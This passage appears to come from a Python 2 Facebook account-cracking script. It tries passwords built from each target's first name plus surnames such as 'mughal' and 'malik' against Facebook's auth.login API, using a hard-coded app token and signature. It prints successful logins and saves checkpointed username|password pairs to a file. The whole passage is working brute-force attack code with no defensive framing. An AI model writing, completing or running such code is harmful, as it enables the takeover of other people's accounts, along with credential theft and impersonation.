 							else:

								if 'www.facebook.com' in q["error_msg"]:

									print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass3

									cek = open("out/checkpoint.txt", "a")

									cek.write(user+"|"+pass3+"\n")

									cek.close()

									cekpoint.append(user+pass3)

								else:

									pass4 = b['first_name'] + 'mughal'

									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

									q = json.load(data)

									if 'access_token' in q:

										print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass4

										oks.append(user+pass4)

									else:

										if 'www.facebook.com' in q["error_msg"]:

											print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass4

											cek = open("out/checkpoint.txt", "a")

											cek.write(user+"|"+pass4+"\n")

											cek.close()

											cekpoint.append(user+pass4)

										else:

											pass5 = b['first_name'] + 'malik'

											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

											q = json.load(data)

											if 'access_token' in q:

												print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass5

												oks.append(user+pass5)
